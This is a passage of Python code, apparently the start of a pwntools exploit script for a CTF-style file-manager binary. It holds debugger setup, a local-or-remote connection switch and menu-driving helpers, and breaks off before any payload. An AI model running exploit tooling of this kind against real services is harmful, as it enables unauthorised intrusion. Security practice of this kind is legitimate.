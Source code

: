 ```python
gdbscript_break = '\n'.join([f"brva {hex(x)}" for x in BREAKPOINTS])

gdbscript = \
        """
        # GDBSCRIPT here
        set follow-fork-mode parent
        continue
        """


def handle():
    
    env = {"LD_PRELOAD": libc.path}
    
    if args.REMOTE:
        return remote(*REMOTE)
    
    elif args.LOCAL:
        if args.GDB:
            p = gdb.debug(EXEC_STR, env=env, gdbscript=gdbscript_break + gdbscript)
        else:
            p = process(EXEC_STR, env=env)
    else:
        error("No argument supplied.\nUsage: python exploit.py (REMOTE|LOCAL) [GDB] [STRACE]") 
    
    # if args.STRACE:
    #     subprocess.Popen([*context.terminal, f"strace -p {p.pid}; cat"])
    #     input("Waiting for enter...")
    
    return p

def recvmenu(l):
    l.recvuntil(b"> ")


def do_create_file(l, filename, filename_len=None):
    recvmenu(l)

    if filename_len == None:
        filename_len = len(filename)

    l.sendline(b'c')
    l.sendlineafter(b"Enter the length of filename:", str(filename_len).encode())
    l.sendlineafter(b"Enter filename: ", filename)

def do_select_file(l, filename):
    recvmenu(l)
    l.sendline(b'b')
    l.sendlineafter(b"Enter filename: ", filename)
    response = l.recvline()
    if response == b'Failed to find the file\n':
        return None
    
    l.recvuntil(b"Filename     \t\t")
    filename = l.recvuntil(b"\nSize         \t\t", drop=True)
    size = l.recvuntil(b"\nCreated  Time\t\t", drop=True)
    created_time = l.recvuntil(b"\nModified Time\t\t", drop=True)
    modified_time = l.recvuntil(b"\n-------------------------------------------------------\n", drop=True)

    return {
        "filename": filename,
        "size": size,
```